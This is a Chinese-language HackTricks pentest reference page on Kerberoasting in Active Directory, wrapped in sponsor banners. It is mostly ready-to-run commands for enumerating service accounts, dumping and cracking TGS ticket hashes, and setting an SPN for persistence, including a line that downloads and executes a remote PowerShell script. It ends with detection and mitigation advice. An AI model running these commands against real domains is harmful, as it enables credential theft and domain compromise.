 # Kerberoast

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
使用[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks)来轻松构建和**自动化工作流程**，利用世界上**最先进**的社区工具。\
立即获取访问权限：

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想在 HackTricks 中看到您的**公司广告**或**下载 PDF 版本的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)** 上关注我们**。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

## Kerberoast

Kerberoast 专注于获取与**Active Directory (AD)** 中以**用户帐户**运行的服务相关的**TGS 票证**。这些票证的加密使用源自**用户密码**的密钥，从而可能导致**离线凭据破解**。将用户帐户用作服务的情况由非空的**"ServicePrincipalName"**属性表示。

要执行**Kerberoast**，需要一个能够请求**TGS 票证**的域帐户；然而，此过程不需要**特殊权限**，因此任何具有**有效域凭据**的人都可以访问。

### 关键要点：

* **Kerberoast** 针对**AD** 中的**用户帐户服务**的**TGS 票证**。
* 使用**用户密码**生成的密钥加密的票证可以**离线破解**。
* 服务由非空的**ServicePrincipalName**标识。
* 只需**有效的域凭据**，无需**特殊权限**。

### **攻击**

{% hint style="warning" %}
**Kerberoast 工具**通常在执行攻击并发起 TGS-REQ 请求时请求**`RC4 加密`**。这是因为**RC4**比其他加密算法如 AES-128 和 AES-256 更容易**离线破解**，可使用 Hashcat 等工具。\
RC4（类型 23）哈希以**`$krb5tgs$23$*`**开头，而 AES-256（类型 18）以**`$krb5tgs$18$*`**开头。
{% endhint %}

#### **Linux**
```bash
# Metasploit framework
msf> use auxiliary/gather/get_user_spns
# Impacket
GetUserSPNs.py -request -dc-ip <DC_IP> <DOMAIN.FULL>/<USERNAME> -outputfile hashes.kerberoast # Password will be prompted
GetUserSPNs.py -request -dc-ip <DC_IP> -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME> -outputfile hashes.kerberoast
# kerberoast: https://github.com/skelsec/kerberoast
kerberoast ldap spn 'ldap+ntlm-password://<DOMAIN.FULL>\<USERNAME>:<PASSWORD>@<DC_IP>' -o kerberoastable # 1. Enumerate kerberoastable users
kerberoast spnroast 'kerberos+password://<DOMAIN.FULL>\<USERNAME>:<PASSWORD>@<DC_IP>' -t kerberoastable_spn_users.txt -o kerberoast.hashes # 2. Dump hashes
```
多功能工具，包括可进行 Kerberoast 攻击的用户转储：
```bash
# ADenum: https://github.com/SecuProject/ADenum
adenum -d <DOMAIN.FULL> -ip <DC_IP> -u <USERNAME> -p <PASSWORD> -c
```
#### Windows

* **枚举可进行 Kerberoast 攻击的用户**
```powershell
# Get Kerberoastable users
setspn.exe -Q */* #This is a built-in binary. Focus on user accounts
Get-NetUser -SPN | select serviceprincipalname #Powerview
.\Rubeus.exe kerberoast /stats
```
* **技术 1: 请求TGS并从内存中转储**
```powershell
#Get TGS in memory from a single user
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ServicePrincipalName" #Example: MSSQLSvc/mgmt.domain.local

#Get TGSs for ALL kerberoastable accounts (PCs included, not really smart)
setspn.exe -T DOMAIN_NAME.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }

#List kerberos tickets in memory
klist

# Extract them from memory
Invoke-Mimikatz -Command '"kerberos::list /export"' #Export tickets to current folder

# Transform kirbi ticket to john
python2.7 kirbi2john.py sqldev.kirbi
# Transform john to hashcat
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```
* **技术 2: 自动化工具**
```bash
# Powerview: Get Kerberoast hash of a user
Request-SPNTicket -SPN "<SPN>" -Format Hashcat #Using PowerView Ex: MSSQLSvc/mgmt.domain.local
# Powerview: Get all Kerberoast hashes
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\kerberoast.csv -NoTypeInformation

# Rubeus
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
.\Rubeus.exe kerberoast /user:svc_mssql /outfile:hashes.kerberoast #Specific user
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap #Get of admins

# Invoke-Kerberoast
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```
{% hint style="warning" %}
当请求TGS时，Windows事件`4769 - 请求了一个Kerberos服务票证`会被生成。
{% endhint %}

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
使用[**Trickest**](https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks)轻松构建和**自动化工作流**，利用世界上**最先进**的社区工具。\
立即获取访问权限：

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

### 破解
```bash
john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```
### 持久性

如果您对用户拥有足够的权限，您可以使其**kerberoastable**：
```bash
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose
```
您可以在这里找到有用的**kerberoast**攻击**工具**：[https://github.com/nidem/kerberoast](https://github.com/nidem/kerberoast)

如果您在Linux中遇到此**错误**：**`Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)`**，这是由于本地时间不同步，您需要将主机与DC同步。有几种选择：

* `ntpdate <DC的IP>` - 自Ubuntu 16.04起已弃用
* `rdate -n <DC的IP>`

### 缓解

如果可以利用，**kerberoasting**可以以高度隐蔽性进行。为了检测此活动，应注意**安全事件ID 4769**，该事件指示已请求Kerberos票证。但是，由于此事件的高频率，必须应用特定过滤器以隔离可疑活动：

* 服务名称不应为**krbtgt**，因为这是正常请求。
* 应排除以**$**结尾的服务名称，以避免包括用于服务的机器帐户。
* 应通过排除格式为**machine@domain**的帐户名称来过滤来自机器的请求。
* 只应考虑成功的票证请求，由**'0x0'**的失败代码标识。
* **最重要的是**，票证加密类型应为**0x17**，这在Kerberoasting攻击中经常使用。
```bash
Get-WinEvent -FilterHashtable @{Logname='Security';ID=4769} -MaxEvents 1000 | ?{$_.Message.split("`n")[8] -ne 'krbtgt' -and $_.Message.split("`n")[8] -ne '*$' -and $_.Message.split("`n")[3] -notlike '*$@*' -and $_.Message.split("`n")[18] -like '*0x0*' -and $_.Message.split("`n")[17] -like "*0x17*"} | select ExpandProperty message
```
为了减轻Kerberoasting的风险：

* 确保**服务账户密码难以猜测**，建议长度超过**25个字符**。
* 使用**托管服务账户**，提供诸如**自动更改密码**和**委派服务主体名称（SPN）管理**等好处，增强对此类攻击的安全性。

通过实施这些措施，组织可以显著降低与Kerberoasting相关的风险。

## 不使用域账户的Kerberoast

在**2022年9月**，一位名为Charlie Clark的研究人员通过他的平台[exploit.ph](https://exploit.ph/)分享了一种利用系统的新方法。这种方法允许通过**KRB\_AS\_REQ**请求获取**服务票证（ST）**，而无需控制任何Active Directory账户。基本上，如果一个主体被设置成不需要预身份验证，类似于在网络安全领域中所知的**AS-REP Roasting攻击**，则可以利用这种特性来操纵请求过程。具体来说，通过修改请求体中的**sname**属性，系统会被欺骗发出**ST**而不是标准的加密票据授予票证（TGT）。

该技术在这篇文章中得到了全面解释：[Semperis博客文章](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/)。

{% hint style="warning" %}
您必须提供用户列表，因为我们没有有效账户来使用此技术查询LDAP。
{% endhint %}

#### Linux

* [impacket/GetUserSPNs.py from PR #1413](https://github.com/fortra/impacket/pull/1413):
```bash
GetUserSPNs.py -no-preauth "NO_PREAUTH_USER" -usersfile "LIST_USERS" -dc-host "dc.domain.local" "domain.local"/
```
#### Windows

* [GhostPack/Rubeus from PR #139](https://github.com/GhostPack/Rubeus/pull/139): 

#### Windows

* [GhostPack/Rubeus from PR #139](https://github.com/GhostPack/Rubeus/pull/139):
```bash
Rubeus.exe kerberoast /outfile:kerberoastables.txt /domain:"domain.local" /dc:"dc.domain.local" /nopreauth:"NO_PREAUTH_USER" /spn:"TARGET_SERVICE"
```
## 参考资料

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting)
* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberoasting-requesting-rc4-encrypted-tgs-when-aes-is-enabled)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
使用[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks)可以轻松构建和**自动化工作流程**，利用世界上**最先进**的社区工具。\
立即获取访问权限：

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}
